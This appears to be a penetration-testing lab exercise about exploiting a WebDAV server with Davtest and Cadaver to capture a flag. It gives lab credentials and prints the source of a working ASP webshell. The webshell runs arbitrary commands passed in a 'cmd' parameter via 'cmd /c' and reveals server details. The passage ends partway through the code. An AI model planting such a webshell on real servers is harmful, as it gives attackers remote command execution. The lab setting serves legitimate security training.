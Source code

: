 Your task is to fingerprint the service using the tools available on the Kali machine and exploit using Davtest and Cadaver tools.

[Davtest](https://code.google.com/archive/p/davtest/):

- Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

- Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

**Objective:** Exploit the service and retrieve the flag!

The following username and password may be used to access the service:

| Username | Password | | bob | password_123321 |


```
<!--
ASP Webshell
Working on latest IIS 
Referance :- 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->


<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's local address:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
```